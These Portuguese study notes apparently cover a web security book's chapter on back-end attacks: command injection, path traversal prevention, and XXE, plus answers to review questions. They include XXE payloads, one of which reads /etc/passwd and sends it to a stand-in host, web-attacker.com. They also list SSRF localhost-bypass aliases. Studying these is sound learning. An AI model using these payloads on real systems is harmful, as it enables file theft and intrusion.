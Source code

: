 # CH 10 - Atacando componentes de back-end

## command injection

- 2 tipos comuns de caracteres para OS command injection:
    * ; | &
    * `

- para casos blind, pode-se:
    * usar um comando time-based (ping, sleep)
    * escrever em um local acessível externamente (web root) 

### prevenindo command injection

- evitar chamada direta ao shell

- whitelist (alfanumérico)

- usar command API (não aceita adição de comandos)

## prevenindo path traversal

- evitar mandar input para API de sistema de arquivos (mapeamento de locais possíveis)

- verificar null byte ou ../ e recusar request

- APIs para verificar o path completo e comparar se está dentro do web root

- ambiente em chroot/new volume

## XXE (XML External Entities)

- ocorre quando existe um xml e é possível criar uma entidade com SYSTEM

- a partir disso é possível realizar SSRF e ler arquivos internos

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///tmp/a">]> (dps precisa usar &xxe no documento)
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://link.com"> %xxe; ]>  (blind)
```
pode-se usar o blind doctype para acessar uma url com ENTITYs:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate; 
```
- uma aplicação que suporta upload de svgs pode ser vulnerável

## Questões

>> * 1) Essas aplicações são frequentemente vulneráveis a ataques de injeção de comandos pois elas querem reaproveitar ferramentas já existentes no SO, facilitando o desenvolvimento e acabam implementando de forma insegura, passando os inputs do usuário diretamente para elas.

>> * 2) É muito provável que essa aplicação esteja vulnerável a path traversal, para testar pode-se tentar acessar locais comuns como o C:\windows\win.ini, com alguns ../, ou ainda outro arquivo no mesmo local.

>> * 3) XXE, para isso é preciso que o interpretador de XML suporte entidades externas e que a aplicação retorne o conteúdo de um elemento xml enviado na request

>> * 4) The variable param has the value urlparam1,urlparam2,bodyparam,cookieparam.

>> * 5) HPP ocorre um parâmetro é setado mais de uma vez na mesma request, o que pode ser usado em HPI (HTTP Param Injection) porém ambos existem de forma independente.

>> * 6) Para contornar essa defesa, pode-se tentar um alias para o localhost como o hostname da máquina, utilizar outro endereço IP do host ou ainda tentar um alias para o 127.0.0.1 (http://127.1, http://0/, http://0x7F000001). 

>> * 7) c